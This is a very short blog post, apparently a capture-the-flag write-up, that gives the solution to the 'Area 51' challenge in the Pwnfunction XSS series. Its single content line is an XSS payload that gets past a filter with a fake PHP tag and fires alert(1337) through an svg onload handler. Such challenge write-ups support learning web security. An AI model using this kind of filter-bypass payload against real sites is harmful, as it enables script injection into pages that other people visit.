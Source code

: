 ```yaml
---
layout: post
title: 'XSS Pwnfunction | Challenges'
date: 2022-04-04
permalink: /other/xss-pwnfunction/challenges/
---
```


# [](#header-4)Area 51
{% highlight plain %}
?debug=&lt;?php&gt;&lt;&lt;svg%20onload=alert(1337)&gt;
{% endhighlight %}
